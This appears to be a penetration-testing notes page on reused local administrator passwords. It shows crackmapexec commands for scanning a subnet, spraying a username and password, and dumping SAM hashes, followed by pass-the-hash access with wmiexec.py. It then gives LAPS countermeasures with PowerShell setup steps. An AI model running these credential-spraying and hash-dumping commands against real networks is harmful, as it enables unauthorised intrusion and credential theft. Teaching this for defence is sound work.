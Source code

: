 ```yaml
---
icon: handshake-simple
---
```


# Shared Local Administrator Password

* Typical used in Deployment Solutions
* Easy for admins to login to various servers/machines when problem arises
* Attackers can get hash on one machine and use it on all other machines

## Shared Administrator Password



Map the Local Network

```
crackmapexec smb 192.168.130.1/29
```



Spray Username and Password across the Network

<pre><code><strong>crackmapexec smb 192.168.130.1/29 -u web1admin -p 'P@ssw0rd' -d trustedsec.int
</strong></code></pre>



Dump the SAM database for one specific host

```
crackmapexec smb 192.168.130.1/29 -u web1admin -p 'P@ssw0rd' -d trustedsec.int --sam
```



Access the Client using the hash found in previous step

```
wmiexec.py WORKGROUP/administrator@192.168.130.4 -hashes <hash goes here>
```



## Countermeasures

* One easy way of changing this is to use Local Administrator Password Solution (LAPS) from Microsoft.
* Change who is allowed to login over the network.

##

## LAPS and Preventing over the network login with local accounts



### In The Domain Controller Machine

* Visit: [https://aka.ms/laps](https://aka.ms/laps)
* Download: LAPS.x64.msi
* Installation Steps
  * Select AdmPwd GPO Extension as Entire feature will be unavailable
  * Select Management Tools as Entire feature will be installed on local hard drive
  * Select Fat client UI as Entire feature will be unavailable

#### After Installation of LAPS

* Open Powershell

Import the Module we have just installed

```powershell
Import-Module admpwd.ps
```

```powershell
Update-AdmPwdADSchema
```

```powershell
Set-AdmPwdComputerSelfPermission -Identity <"computer's distinguise name here">
```

```powershell
Set-AdmPwdComputerSelfPermission -Identity <"computer's distinguise name here"> -AllowedPrincipals <"Group Name here">
```

